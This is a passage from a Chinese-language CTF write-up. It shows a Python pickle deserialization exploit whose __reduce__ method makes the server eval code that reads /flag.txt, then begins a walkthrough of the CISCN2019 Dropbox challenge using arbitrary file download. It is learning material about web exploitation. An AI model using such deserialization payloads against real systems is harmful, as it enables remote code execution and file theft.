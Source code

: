 *   问题就出在反序列化`pickle.loads`。它有内置的[魔术方法](https://blog.csdn.net/bluehawksky/article/details/79027055)`__reduce__(self)`会在对象被pickle时调用
*   于是自定义序列化一个类

```
 import pickle
import urllib

class payload(object):
    def __reduce__(self):

       return (eval, ("open('/flag.txt','r').read()",)) 

a = pickle.dumps(payload())
a = urllib.quote(a)
print a 
```

![在这里插入图片描述](img/60acb77bc4181dddc0cdcf714953adfc.png)

*   这波只能说复现吧，就是看wp做。 不过了解了JWT和python的反序列化。还行。

### 3、[CISCN2019 华北赛区 Day1 Web1]Dropbox

*   打开有注册登录，但不是sql注入。随便注册登录一个之后，发现有上传。但也不是文件上传类型的题目。

*   第一个切入点就是任意文件下载，在下载的时候抓包，可以看到下载的文件名直接暴露。
    ![在这里插入图片描述](img/d48404c993c6356f1abacc099c1ae7e4.png)
